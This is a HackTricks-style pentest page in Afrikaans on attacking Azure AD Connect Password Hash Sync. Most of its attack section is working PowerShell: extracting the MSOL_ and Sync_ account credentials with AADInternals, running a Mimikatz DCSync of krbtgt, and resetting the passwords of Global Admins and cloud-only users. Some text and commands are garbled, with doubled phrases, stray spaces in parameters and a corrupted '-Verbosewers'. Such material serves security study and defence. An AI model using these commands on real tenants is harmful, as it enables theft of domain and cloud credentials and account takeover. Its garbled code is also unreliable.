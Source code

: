 # Az - PHS - Wagwoordhassinkronisasie

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kontroleer die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS-familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFT's**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

## Basiese Inligting

[Van die dokumente:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Wagwoordhassinkronisasie** is een van die aanmeldingsmetodes wat gebruik word om hibriede identiteit te bereik. **Azure AD Connect** sinkroniseer 'n hassinkronisasie, van die hassinkronisasie, van 'n gebruiker se wagwoord van 'n plaaslike Active Directory-instantie na 'n wolkgebaseerde Azure AD-instantie.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

Dit is die **mees algemene metode** wat deur maatskappye gebruik word om 'n plaaslike AD met Azure AD te sinkroniseer.

Alle **gebruikers** en 'n **hassinkronisasie van die wagwoordhassies** word gesinkroniseer vanaf die plaaslike na Azure AD. Tog word **klarteks-wagwoorde** of die **oorspronklike** **hassies** nie na Azure AD gestuur nie.\
Verder word **Ingeboude** sekuriteitsgroepe (soos domeinadministrateurs...) **nie gesinkroniseer** na Azure AD nie.

Die **hassinkronisasie** vind elke **2 minute** plaas. Tog word **standaard** **wagwoordverval** en **rekeningverval** **nie gesinkroniseer** in Azure AD nie. Dus kan 'n gebruiker wie se **plaaslike wagwoord verval het** (nie verander nie) voortgaan om **Azure-hulpbronne te benader** met die ou wagwoord.

Wanneer 'n plaaslike gebruiker 'n Azure-hulpbron wil benader, vind die **verifikasie plaas op Azure AD**.

**PHS** is nodig vir funksies soos **Identiteitsbeskerming** en AAD-domeindienste.

## Pivoting

Wanneer PHS gekonfigureer is, word sommige **bevoorregte rekeninge** outomaties **geskep**:

* Die rekening **`MSOL_<installationID>`** word outomaties geskep in die plaaslike AD. Hierdie rekening kry 'n **Directory Synchronization Accounts**-rol (sien [dokumentasie](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) wat beteken dat dit **replikasie (DCSync)-regte in die plaaslike AD** het.
* 'n rekening **`Sync_<naam van plaaslike ADConnect-bediener>_installationID`** word geskep in Azure AD. Hierdie rekening kan die wagwoord van ENIGE gebruiker (gesinkroniseer of slegs wolk) in Azure AD **herstel**.

Die wagwoorde van die twee vorige bevoorregte rekeninge word **gestoor in 'n SQL-bediener** op die bediener waar **Azure AD Connect geïnstalleer is.** Admins kan die wagwoorde van daardie bevoorregte gebruikers in klarteks onttrek.\
Die databasis is geleë in `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Dit is moontlik om die konfigurasie uit een van die tabelle te onttrek, waarvan een versleutel is:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

Die **versleutelde konfigurasie** is versleutel met **DPAPI** en dit bevat die **wagwoorde van die `MSOL_*`**-gebruiker in die plaaslike AD en die wagwoord van **Sync\_\*** in AzureAD. Daarom, deur hierdie te kompromiteer, is dit moontlik om te privesc na die AD en na AzureAD.

Jy kan 'n [volledige oorsig van hoe hierdie geloofsbriewe gestoor en ontsluit word in hierdie geselskap](https://www.youtube.com/watch?v=JEIR5oGCwdg) vind.

### Vind die **Azure AD Connect-bediener**

As die **bediener waarop Azure AD Connect geïnstalleer is** domein saamgevoeg is (aanbeveel in die dokumente), is dit moontlik om dit te vind met:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Misbruik van MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Jy kan ook [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) gebruik om hierdie geloofsbriewe te verkry.
{% endhint %}

### Misbruik van Sync\_\*

Deur die **`Sync_*`**-rekening te kompromiteer, is dit moontlik om die wagwoord van enige gebruiker (insluitend Globale Administrateurs) te **herstel**.
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Dit is ook moontlik om die wagwoorde van slegs **wolkkas** gebruikers te wysig (selfs al is dit onverwags).
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Dit is ook moontlik om die wagwoord van hierdie gebruiker te dump.

{% hint style="danger" %}
'n Ander opsie sou wees om **bevoorregte regte aan 'n diensprinsipaal toe te ken**, wat die **Sync**-gebruiker die **regte** het om te doen, en dan daardie diensprinsipaal te **toegang** as 'n manier van privesc.
{% endhint %}

### Naadloos SSO

Dit is moontlik om Naadloos SSO met PHS te gebruik, wat vatbaar is vir ander misbruik. Kontroleer dit in:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Verwysings

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>Leer AWS hak van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kontroleer die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling van eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
